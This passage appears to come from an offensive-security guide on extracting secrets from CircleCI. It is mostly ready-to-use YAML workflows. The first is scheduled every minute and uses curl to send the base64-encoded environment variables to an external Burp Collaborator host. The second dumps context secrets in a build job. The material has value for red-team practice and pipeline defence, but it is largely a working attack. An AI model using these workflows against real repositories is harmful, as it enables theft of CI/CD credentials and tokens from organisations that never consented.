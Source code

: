 If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **create a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
  exfil-env-workflow:
    triggers:
      - schedule:
          cron: "* * * * *"
          filters:
            branches:
              only:
                - circleci-project-setup
    jobs:
      - exfil-env
```

### Exfiltrate Context Secrets

You need to **specify the context name** (this will also exfiltrate the project secrets):

```yaml
```

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "env | base64"

workflows:
  exfil-env-workflow:
    jobs:
      - exfil-env:
          context: Test-Context
```

